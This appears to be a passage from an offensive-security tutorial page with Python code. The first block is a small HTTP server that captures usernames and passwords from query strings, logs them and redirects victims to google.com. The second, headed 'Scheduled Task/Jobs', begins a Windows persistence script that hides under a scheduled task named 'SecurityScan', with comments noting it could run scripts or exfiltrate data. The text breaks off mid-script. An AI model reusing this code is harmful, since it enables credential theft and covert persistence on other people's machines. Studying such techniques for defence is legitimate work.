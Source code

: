 ```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse,parse_qs

hostName = "localhost"
serverPort = 8443

class MyServer(BaseHTTPRequestHandler):
    def do_GET(self):
				# parse_qs parses a query string given as a string argument
        queries = parse_qs(urlparse(self.path).query)
				# checking 
        print("Username: %s, Password: %s"%(queries["user"][0],queries["password"][0]))
				# The HTTP 300 Multiple Choices redirect status response code indicates that the request has more than one possible responses
        self.send_response(300)
				# forwarding to google.com
        self.send_header("Location", "http://www.google.com")
        self.end_headers()

if __name__ == "__main__":        
		# for starting the server 
    webServer = HTTPServer((hostName, serverPort), MyServer)
    print("Server started http://%s:%s" % (hostName, serverPort))

    try:
        webServer.serve_forever()
    except KeyboardInterrupt:
        pass

    webServer.server_close()
    print("Server stopped.")
```

### 2. Scheduled Task/Jobs

### random

[random - Generate pseudo-random numbers - Python 3.10.5 documentation](https://docs.python.org/3/library/random.html)

### datetime

[datetime - Basic date and time types - Python 3.10.5 documentation](https://docs.python.org/3/library/datetime.html)

### schtasks

[Schtasks - Scheduled tasks - Windows CMD - SS64.com](https://ss64.com/nt/schtasks.html)

```python
# os - for path n all
# datetime - to set the time 
import os, random
from datetime import datetime,timedelta
# to check whether the task we want to create already exists on the system
if os.system("schtasks /query /tn SecurityScan") == 0:
    os.system("schtasks /delete /f /tn SecurityScan")
# here we are just printing out but we can use this to run scripts,exfiltrate data and many more....
print("I am doing malicious things")
# created a persistence for our execution file
filedir = os.path.join(os.getcwd(),"sched.py")

# time interval - 1 minute
```